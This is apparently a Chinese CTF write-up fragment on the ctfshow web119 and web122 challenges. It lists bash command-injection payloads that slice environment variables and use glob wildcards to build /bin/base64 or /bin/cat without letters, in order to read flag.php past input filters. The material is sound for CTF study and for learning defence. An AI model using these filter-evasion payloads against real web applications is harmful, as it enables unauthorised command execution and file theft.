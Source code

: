     ${PATH:~A}${PWD:~A}${IFS}????.??? # nl flag.php

ctfshow web119中，`${PATH}`不可用，师傅们一共有以下trick：

    # 构造/bin/base64 ，即/???/?????4.但实际上，我本地满足此通配符的命令有很多。
    # 这里PWD是/var/www/html，取第一位的斜杠。RANDOM为五位数一下，多试几次有四位数。
    ${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}?????${#RANDOM}${IFS}????.???
    # 构造/bin/cat ，这里有师傅说可以/???/?a?，我本地这个通配符也是比较多。记录一下吧。
    # 也有师傅构造的/???/?at，t是从$USER的www-data来的，这个USER很难说。
    # PHP_VERSION是7.3.22，最后一位是2。 PWD是/var/www/html，第二位是a。
    ${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}?${PWD:${PHP_VERSION:~A}:${#SHLVL}}?${IFS}????.??? # 这题确实能打出来 只是有一堆乱码罢了。

ctfshow web122中，可以用`<、$HOME `，其他的环境变量，包括`#`都不能用。出题人师傅给了个巧妙的解法：

    <A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
    # <A，执行失败使得$?值为1.这样构造出来1之后可以得到斜杠/，并通过取RANDOM的第一位，获取任意数。这里构造了/bin/base64